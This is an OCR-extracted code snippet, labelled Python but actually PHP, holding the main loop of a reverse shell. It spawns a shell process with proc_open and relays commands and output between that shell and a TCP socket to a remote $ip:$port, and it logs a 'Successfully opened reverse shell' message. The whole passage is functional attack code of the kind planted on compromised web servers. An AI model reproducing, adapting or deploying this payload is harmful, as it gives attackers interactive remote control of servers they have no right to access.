 ```python
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
```